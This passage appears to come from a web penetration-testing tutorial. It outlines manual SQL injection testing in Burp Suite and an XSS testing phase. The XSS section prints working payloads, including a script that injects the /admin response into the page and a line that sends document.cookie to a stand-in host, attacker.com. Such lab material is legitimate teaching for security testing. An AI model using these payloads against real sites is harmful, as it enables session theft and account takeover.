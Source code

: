 **Burp Suite Manual Testing:**
1. Navigate to SQL injection page
2. Send request to Repeater
3. Modify parameters systematically
4. Test various payloads:
   - Boolean-based blind
   - Time-based blind
   - Error-based
   - Union-based

**💡 Manual Testing Advantages:**
- Complex logic testing
- Business context understanding
- Creative attack vectors
- Validation of automated findings

**💡 SQL Injection Impact:**
- Data extraction
- Authentication bypass
- Database manipulation
- Potential system compromise

**💡 Testing Methodology:**
- Systematic parameter testing
- Multiple injection techniques
- Impact assessment
- Proof-of-concept development

### Phase 5: Cross-Site Scripting (XSS) Testing

**XSS Payload Testing:**

```javascript
// Basic XSS payloads
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
<svg onload=alert('XSS')>

// Advanced payloads
<script>fetch('/admin').then(r=>r.text()).then(d=>document.body.innerHTML=d)</script>
<script>new Image().src='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Testing Approach:**
1. **Reflected XSS:**
   - Test URL parameters
   - Form input fields
   - HTTP headers

2. **Stored XSS:**
   - Guestbook entries
   - User profile fields
   - File upload functionality

3. **DOM XSS:**
   - Client-side script analysis
   - URL fragment testing
   - JavaScript source review
